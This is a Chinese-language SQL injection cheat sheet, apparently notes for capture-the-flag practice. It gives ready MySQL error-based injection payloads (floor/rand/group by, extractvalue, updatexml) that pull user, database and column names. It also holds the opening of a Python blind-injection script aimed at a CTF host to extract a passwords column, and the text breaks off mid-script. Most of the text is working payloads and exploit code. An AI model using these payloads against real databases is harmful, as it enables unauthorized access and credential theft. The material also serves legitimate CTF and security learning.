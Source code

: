 - BigInt等数据类型溢出
- 函数参数格式错误
- 主键/字段重复

**floor报错注入**
利用 **count()函数 、rand()函数 、floor()函数 、group by** 这几个特定的函数结合在一起产生的注入漏洞

虚拟表报错原理：简单来说，是由于where条件每执行一次，rand函数就会执行一次，如果在由于在统计数据时判断依据不能动态改变，故`rand()`不能后接在`order/group by`上

```sql
and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a) #
```

**ExtractValue报错注入**
适用版本：5.1.5+

```sql
and extractvalue(1,concat(0x7e,user(),0x7e))#
and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e))#
```

**UpdateXml报错注入**
适用版本: 5.1.5+

UpdateXml 函数实际上是去更新了XML文档，但是我们在XML文档路径的位置里面写入了子查询，我们输入特殊字符，然后就因为不符合输入规则然后报错了，但是报错的时候他其实已经执行了那个子查询代码

```sql
and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flag'),0x7e),1)#
```

[Mysql报错注入原理分析(count()、rand()、group by)](https://www.cnblogs.com/xdans/p/5412468.html)
[updatexml injection without concat](https://xz.aliyun.com/t/2160)
[当concat()在报错注入不可用时](https://www.dazhuanlan.com/2019/11/30/5de149bd419ec/)

##### 布尔盲注
没啥好说的，写脚本就完事了
二分法脚本：

```python
import re
import requests
import string
 
url = "http://649d4d3a-b8a5-449d-82fa-aad24102ca6d.node3.buuoj.cn/search.php"
flag = ''
def payload(i,j):
    # sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)       
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,j)
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1"%(i,j)
    data = {"id":sql}
    r = requests.get(url,params=data)
    # print (r.url)
    if "Click" in r.text:
        res = 1
    else:
        res = 0
 
    return res
 
def exp():
    global flag
    for i in range(1,1000) :
```